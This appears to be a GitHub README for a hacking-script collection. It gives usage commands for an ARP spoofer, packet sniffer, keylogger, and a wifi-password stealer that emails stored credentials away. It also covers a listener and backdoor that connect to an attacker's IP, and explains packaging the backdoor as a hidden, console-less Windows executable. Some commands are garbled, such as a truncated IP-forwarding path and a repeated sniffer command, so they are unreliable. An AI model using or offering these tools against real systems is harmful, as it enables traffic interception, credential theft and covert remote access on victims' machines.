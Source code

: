 # Python Scripts
A Collection of Python Scripts.

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object

## Packaging

### Windows
- Install pyinstaller for python: 
```
python.exe -m pip install pyinstaller
```
- Convert to exe: 
```
pyinstaller.exe backdoor.py --onefile --noconsole
```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: 
```
wine python.exe -m pip install pyinstaller
```
- Install all imported library: 
```
wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput
```
- Convert to exe: 
```
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole
```
